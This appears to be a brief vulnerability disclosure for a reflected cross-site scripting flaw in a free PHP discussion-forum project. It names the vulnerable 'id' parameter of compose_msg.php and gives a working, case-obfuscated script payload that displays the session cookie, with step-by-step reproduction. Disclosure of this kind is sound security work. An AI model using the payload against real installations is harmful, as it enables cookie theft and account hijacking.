 # System-with-Cross-site-Scripting-XSS-

Vul_Author: WangTY-Sama

vendors: https://itsourcecode.com/free-projects/php-project/online-discussion-forum-project-in-php-with-source-code/

Vulnerability File: /bcc_forum/members/home.php

Vulnerability location: GET /bcc_forum/members/compose_msg.php?id=%22%3E%3CsCrIpT%3Ebygedniyyq%3C%2FScRiPt%3E HTTP/1.1

[+] Payload: "><sCrIpT>alert(document.cookie)</ScRiPt>

Tested on Windows 11, phpStudy

There is an example with alert:

When you enter the system, click the hyperlink next to "prof | Professional" and transfer to Compose Message page.
![alt text](P1.png)
You can see that the URl of Compose Message page is http://localhost/bcc_forum/members/compose_msg.php?id=71.
![alt text](P2.png)
We replace "71" with 
```
"><sCrIpT>alert(document.cookie)</ScRiPt> 
```
![alt text](P3.png)
then press Enter, you will obtain its cookie.
![alt text](P4.png)
